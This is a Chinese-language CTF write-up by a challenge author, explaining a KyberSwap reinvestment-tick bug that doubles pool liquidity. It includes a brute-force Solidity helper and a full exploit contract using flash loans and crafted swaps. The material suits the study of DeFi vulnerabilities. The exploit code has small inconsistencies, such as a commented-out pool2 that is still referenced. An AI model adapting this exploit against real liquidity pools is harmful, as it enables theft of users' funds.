 # Ezswap-DubheCTF

Swap is a kind of magical magic, and I am deeply impressed.

> 题目思路来源于一个真实的针对kyberswap合约的黑客攻击，具体参考
> 
> [https://mp.weixin.qq.com/s/PkUqaJKlJFHsvRot1ij4qg?ref=www.ctfiot.com](https://mp.weixin.qq.com/s/PkUqaJKlJFHsvRot1ij4qg?ref=www.ctfiot.com)

整体的代码并没有更改多少，一是把合约的flash函数锁去掉了，主要的一点改动是在漏洞点这里做了一点修复，限制了无法从上界去利用这个漏洞使流动性翻倍，需要攻击者在流动性区间的下界通过此漏洞利用进行流动性翻倍。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240318145314173.png)
在设计这个题的时候，感觉并没有做好，导致出了非预期。弄了两个池子，一个池子用来被攻击的，一个池子用来闪电贷token的，用户本身只有非常少的token，本意是觉着这样更能模拟真实的场景吧。所以第一个池子的闪电贷其实不应该开放给用户，导致了非预期，直接闪电贷第一个池子就能满足check了。加个bool变量在初始化池子的时候把第一个池子的flash锁了就好了，这非预期有点难受的。

## 漏洞原理

先说说kyerbswap 的一些特点：

- 一是由于kyberswap本身是二开的uniswap v3合约，所以大多数的逻辑都是相似的，但是kyberswap 算是众多fork univ3合约中改动较大的一版，将bitmap索引tick改为了双向链表索引，这样更加的节省gas以及方便查找。
- 二是kyberswap新增了手续费复投的概念，在每次swap的时候都会将用户的手续费复投到池子中，并参与swap过程。在数学原理上，kyber通过一系列数学魔法，把本身的swap兑换曲线和reinvest的概念合并到了一条新的曲线上。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319111727497.png)
一个简单的swap计算过程。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319111850867.png)
所以漏洞原理就出在复投之后的tick的计算上，在利用computeSwapStep计算出在这个区间的流动性所支持兑换的token数量后，会进行判断是否跨tick了，如果没有就直接计算currentTick，结束本次循环。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319112102773.png)
而在computeSwapStep存在着两次计算，第一次是计算当前区间流动性可以被使用的token数量，第二次是考虑了加入再投资流动性之后计算出来的价格。
![](https://obsidianmarkdown.oss-cn-beijing.aliyuncs.com/obsidianData/image-20240319112102773.png)
所以在某种精确计算的情况下，可以找出一个精准的区间和流动性来使calcReachAmount计算出来的数量大于我们要兑换的数量，这样可以让系统认为我们并没有cross tick。但在最终调用calcReachAmount计算出最终价格的时候却已经是下一个区间的价格，从而在执行`swapData.currentTick = TickMath.getTickAtSqrtRatio(swapData.sqrtP);`的时候currentTick也成了区间上界tick或者下界tick。而系统认为我们并没有cross tick但实际上已经cross tick所以流动性本该减去却没有改变，当我们再反向swap时候流动性又会增加，导致流动性翻倍。
# 题解

个人觉着题目的难度可能在于代码量较大，如果之前没看过univ3可能要从头开始学，需要花较久的时间，导致好像也没太多人看这题。关于这个漏洞的exp其实在网上也能有（[https://github.com/paco0x/kyber-exploit-example](https://github.com/paco0x/kyber-exploit-example)），但并不能直接适用于我们这题，原因在于最上面的一个小改动。

首先找到这个精确的流动性和swap兑换的数量。
```js
// brute force to find a valid liquidity number that will result in end price above the next price & end tick == next tick  
    function findExploitableLiquidity2(uint128 liquidityStart, uint160 currentSqrtP, uint160 targetSqrtP)  
        public  
        view  
        returns (uint128, uint256)  
    {  
        uint128 liquidity = liquidityStart;  
        uint256 absDelta = 0;  
        uint256 count = 0;  
        while (true) {  
            liquidity++;  
            count++;  
​  
            // run the maths in SwamMath.computeSwapStep() to find a liquidity number  
            // that satisfies the condition end_price > next_price when using (usedAmount - 1) to swap.  
            int256 usedAmount = SwapMath.calcReachAmount(liquidity, currentSqrtP, targetSqrtP, 10, true, true);  
            absDelta = uint256(usedAmount) - 1;  
            uint256 deltaL = SwapMath.estimateIncrementalLiquidity(absDelta, liquidity, currentSqrtP, 10, true, true);  
            uint160 nextSqrtP = uint160(SwapMath.calcFinalPrice(absDelta, liquidity, deltaL, currentSqrtP, true, true));  
​  
            if (nextSqrtP < targetSqrtP) {  
                // console2.log("liquidity", liquidity);  
                break;  
            }  
            if (count == 10_000_000) {  
                revert("unable to find a valid liquidity number");  
            }  
        }  
​  
        return (liquidity, absDelta);  
    }


```
然后利用即可，用同样数量的token1获取更多的token0
```
// SPDX-License-Identifier: MIT  
pragma solidity 0.8.9;  
​  
import "../contracts/openzeppelin/contracts/token/ERC20/ERC20.sol";  
​  
import "../contracts/Pool.sol";  
import "../contracts/Factory.sol";  
import "../contracts/oracle/PoolOracle.sol";  
import "../contracts/libraries/TickMath.sol";  
​  
import "../contracts/libraries/SwapMath.sol";  
import "../contracts/periphery/libraries/LiquidityMath.sol";  
​  
contract Token is ERC20 {  
    constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {}  
​  
    function mint(address to, uint256 amount) public {  
        _mint(to, amount);  
    }  
}  
interface Setup {  
    function addManager(address manager) external;  
    function run() external;  
    function airdroop() external;  
    function check() external;  
}  
contract KyberAttack  {  
​  
    Pool pool = Pool(0xb51bBD304ADCf42b8882720Af184197600b9d9fF);  
//    Pool pool2  = Pool(0x54A8A576907BA8291a41e21E80a3F357D8f74133);  
    Token token0 =   Token(address(pool.token0()));  
    Setup setup = Setup(0x0DCd1Bf9A1b36cE34237eEaFef220932846BCD82);  
    Token token1 = Token(address(pool.token1()));  
​  
​  
    int24 lower = -111311;  
    int24 upper = lower + 100;  
​  
    uint128 rangeLiquidity;  
​  
​  
    function mintCallback(uint256 qty0, uint256 qty1, bytes calldata data) external {  
        if (qty0 > 0) {  
            token0.transfer(msg.sender, qty0);  
        }  
        if (qty1 > 0) {  
            token1.transfer(msg.sender, qty1);  
        }  
    }  
​  
    function swapCallback(int256 qty0, int256 qty1, bytes calldata data) external {  
​  
        if (qty0 > 0) {  
            token0.transfer(msg.sender, uint256(qty0));  
        }  
        if (qty1 > 0) {  
            token1.transfer(msg.sender, uint256(qty1));  
        }  
    }  
​  
​  
    function flashCallback(uint256 feeQty0, uint256 feeQty1, bytes calldata data) external {  
​  
        uint160 lowerSqrtP = TickMath.getSqrtRatioAtTick(lower);  
        uint160 upperSqrtP = TickMath.getSqrtRatioAtTick(upper);  
​  
         pool.swap(address(this), type(int256).max, true, TickMath.getSqrtRatioAtTick(upper), "");  
        // calc the rough amount of liquidity with amount of 100 ether  
        uint128 initLiquidity = LiquidityMath.getLiquidityFromQty0(lowerSqrtP, upperSqrtP, 100 ether);  
​  
        uint128  adjustedLiquidity = 76766215640030182295;  
        uint256 exploitableToken1Amount =  100005025313878185766;  
​  
         (uint128 L, uint128 reinvestL,) = pool.getLiquidityState();  
        rangeLiquidity = adjustedLiquidity - reinvestL - L;  
        pool.mint(address(this), lower, upper, [TickMath.MIN_TICK, lower], rangeLiquidity, "");  
​  
        pool.swap(address(this), int256(exploitableToken1Amount), true, TickMath.MIN_SQRT_RATIO + 1, "");  
​  
        {  
            pool.swap(address(this), type(int256).min, true, TickMath.getSqrtRatioAtTick(lower), "");  
            (uint128 newLiquidity,,) = pool.getLiquidityState();  
​  
        }  
​  
        (int256 deltaQty0, int256 deltaQty1) = pool.swap(address(this), 10 ether, false, TickMath.getSqrtRatioAtTick(upper+13713), "");  
​  
        pool.burn(lower, upper, rangeLiquidity);  
​  
       token0.transfer(address(pool2), 101 ether);  
       token1.transfer(address(pool2), 0.3 ether );  
​  
    }  
​  
​  
       function run() public {  
        setup.addManager(address(this));  
        setup.airdroop();  
       pool2.flash(address(this),101 ether , 0.3 ether, abi.encodePacked(uint256(101 ether), uint256(0.3 ether)));  
        pool.burn(lower, upper, rangeLiquidity);  
        setup.check();  
    }  
​  
}  
​  
//[+] pool address 0xe7152513974AD8F6fdac593a441b361Ff774fC90  
//[+] pool2 address 0x9d77b2e483D4aA812D3CC2f15Ee6b264b7e93f74  
//[+] token0 address 0x0665FbB86a3acECa91Df68388EC4BBE11556DDce  
//[+] token1 address 0x56639dB16Ac50A89228026e42a316B30179A5376  
//[+] factory address 0xe61FDeDBcb68e8966c869E51eAb9020cFAAdf066  
​
```
 
